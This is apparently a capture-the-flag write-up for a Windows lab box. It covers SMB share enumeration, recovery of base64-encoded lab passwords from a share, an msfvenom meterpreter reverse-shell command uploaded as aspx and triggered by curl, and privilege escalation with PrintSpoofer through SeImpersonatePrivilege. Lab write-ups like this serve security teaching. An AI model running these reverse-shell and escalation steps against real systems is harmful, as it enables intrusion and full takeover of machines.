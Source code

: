 ﻿# ENUMERATION
---

## OPEN PORTS
---


| PORT  | SERVICE               |
| :---- | :-------------------- |
| 80    | `http`                |
| 135   | `msrpc`               |
| 139   | `netbios-ssn?`        |
| 445   | `tcp (SMB)`           |
| 3389  | `ms-wbt-server (RDP)` |
| 49663 | `http`                |
| 49667 | `msrpc`               |
| 49669 | `msrpc`               |
|       |                       |
A lot of ports are open, let's proceed to check the website located at port `80`


![Pasted image 20241122171440.png](../../IMAGES/Pasted%20image%2020241122171440.png)

Nothing useful is in here, let's skip the fuzzing part as it doesn't contain anything too.

As shown in the open ports, we have RDP on `3389` and also SMB on `445`, let's try to enumerate SMB to check if there's anything useful.





# RECONNAISSANCE
---


## SMB Enumeration

Let's run the following command to list the shares in `SMB`:

`smbclient -l IP`

![Pasted image 20241122173253.png](../../IMAGES/Pasted%20image%2020241122173253.png)

We find a share `nt4wrksv`, let's research to check if there's a way to access to it:

```ad-hint

#### How to access?
----

Command used

`smbclient \\\\<Victim Ip>\\nt4wrksv`

If we use that, we are able to connect even without the password:


```

We are in and found a `passwords.txt` file, let's download it and take a look at it:

![Pasted image 20241122173939.png](../../IMAGES/Pasted%20image%2020241122173939.png)

Seems like two passwords, both are `base64` encoded, let's decode them:

![Pasted image 20241122174102.png](../../IMAGES/Pasted%20image%2020241122174102.png)

![Pasted image 20241122174229.png](../../IMAGES/Pasted%20image%2020241122174229.png)

We got the following credentials:

```ad-note

`Bob` : `!P@$$W0rD!123`
`Bill` : `Juw4nnaM4n420696969!$$$`


```

Let's scan the machine further to check if there's anything vulnerable, for this, I will use the following Nmap scan:

```ad-hint

##### Nmap
----

If we use: `nmap -Pn -script vuln IP`, we get the following:


The `3389` port is vulnerable to RCE. let's get a shell.

```
# EXPLOITATION
---

Nice, for the exploitation part we need to do the following:

```ad-summary
### Step to step to get the shell
---


1. Use msfvenom and create the reverse shell: `msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=OURIP lport=ourport -f aspx -o reverse_shell.aspx`
2. Upload the reverse shell file to the network share:
3. Use curl to retrieve the reverse shell: `curl http://IP:49663/nt4wrksv/reverse_shell.aspx`
4. Let's use metasploit's multi handler to create a listener:


Let's run the multi handler and use curl at the same time to get our shell:




```



Nice, let's do privilege escalation



# PRIVILEGE ESCALATION
---



For privilege escalation, we need to investigate the machine, let's take a look at the privileges using `getprivs`:


![Pasted image 20241122182831.png](../../IMAGES/Pasted%20image%2020241122182831.png)

Most interesting one is the `SeImpersonatePrivilege`, we can impersonate, for this privilege escalation, we'll be impersonating `PrintSpoofer`:

```ad-note

Script: [GITHUB LINK](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe)
```

Once we've put the script inside of our machine using smb, we can do the following:

![Pasted image 20241122183155.png](../../IMAGES/Pasted%20image%2020241122183155.png)

Switch to shell and go to this route: 

`c:/inetpub/wwwroot/nt4wrksv`

![Pasted image 20241122183251.png](../../IMAGES/Pasted%20image%2020241122183251.png)

We can now see our `PrintSpoofer64.exe` program, we need to do the following in order to get a reverse shell:

`PrintSpoofer64.exe -i -c powershell.exe`

We are taking advantage of the `SeImpersonatePrivilege`, let's get our root shell:


![Pasted image 20241122183438.png](../../IMAGES/Pasted%20image%2020241122183438.png)

And just like that, CTF is done.

